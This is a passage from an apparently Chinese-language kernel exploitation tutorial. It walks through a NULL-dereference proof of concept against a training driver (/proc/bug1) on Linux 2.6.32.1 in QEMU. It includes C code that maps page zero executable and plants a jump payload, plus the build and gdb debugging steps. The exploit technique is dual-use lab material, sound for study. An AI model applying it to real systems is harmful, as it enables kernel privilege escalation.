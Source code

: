 

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/mman.h&gt;
char payload[] = "xe9xeaxbexadx0b";//jmp 0xbadbeef
int main(){
    mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "muhe", 4);
    return 0;
}
# muhe @ ubuntu in ~/linux_kernel/linux-2.6.32.1/linux-2.6.32.1/null_dereference [4:17:06] 
$ gcc -static poc.c -o poc
poc.c: In function ‘main’:
poc.c:11:5: warning: incompatible implicit declaration of built-in function ‘memcpy’ [enabled by default]
     memcpy(0, payload, sizeof(payload));
     ^
poc.c:11:5: warning: null argument where non-null required (argument 1) [-Wnonnull]
# muhe @ ubuntu in ~/linux_kernel/linux-2.6.32.1/linux-2.6.32.1/null_dereference [4:17:51] 
$ cp poc ../../busybox-1.19.4/_install/usr
```

然后qemu启动系统，启动的时候按下ctrl+alt+2

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01f8b1695ca1c55205.png)

然后gdb去连接



```
# muhe @ ubuntu in ~/linux_kernel/linux-2.6.32.1/linux-2.6.32.1 [4:12:41] 
$ gdb vmlinux
gdb-peda$ target remote :1234
Remote debugging using :1234
Warning: not running or target is remote
current_thread_info () at /home/muhe/linux_kernel/linux-2.6.32.1/linux-2.6.32.1/arch/x86/include/asm/thread_info.h:186
186            (current_stack_pointer &amp; ~(THREAD_SIZE - 1));
gdb-peda$ b *0x0
Breakpoint 1 at 0x0
gdb-peda$ c
Continuing.
```

然后qemu中ctrl+alt+1切换回去，然后进入usr目录，挂载驱动后运行poc程序。

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f5e512b2015d41a0.png)
